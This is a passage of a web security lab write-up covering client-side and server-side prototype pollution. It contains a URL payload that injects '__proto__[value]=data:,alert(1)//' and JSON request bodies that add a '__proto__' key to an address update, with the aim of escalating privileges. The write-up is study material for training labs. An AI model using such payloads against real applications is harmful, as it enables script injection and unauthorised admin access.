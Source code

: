 4. Here on 
    ```
        Object.defineProperty(config, 'transport_url', {configurable: false, writable: false});
    ```
    The default value is not configued 
    we can inject payload like 
    
    ```
    https://0ac60080032b4d5480db0ddd00a8007f.web-security-academy.net/?__proto__[value]=data:,alert(1)//
    ```
Which executes the payload.


# Lab: Privilege escalation via server-side prototype pollution

Steps taken to solve the lab

1. Logged in to the account via 'http://0a05003204475a6e8015588a00dc00a1.web-security-academy.net/login'
2. Update the address records which sent the following code.
    ```json
    {
        "address_line_1": "cool1",
        "address_line_2": "cool2",
        "city": "cool3",
        "postcode": "cool4",
        "country": "cool5",
        "sessionId": "JrjrCIIdmwkTXjL8wKFQFYisAmuulyq5"
    }
    ```
3. We got the following response 
    ```json
    {
        "username": "wiener",
        "firstname": "Peter",
        "lastname": "Wiener",
        "address_line_1": "cool1",
        "address_line_2": "cool2",
        "city": "cool3",
        "postcode": "cool4",
        "country": "cool5",
        "isAdmin": false
    }
    ```
4. Now we inject the following payload 

    ```json
    {
        "address_line_1": "cool1",
        "address_line_2": "cool2",
        "city": "cool3",
        "postcode": "cool4",
        "country": "cool5",
        "sessionId": "JrjrCIIdmwkTXjL8wKFQFYisAmuulyq5",
        "__proto__": {
            "foo": "bar"
        }
    }
    ```
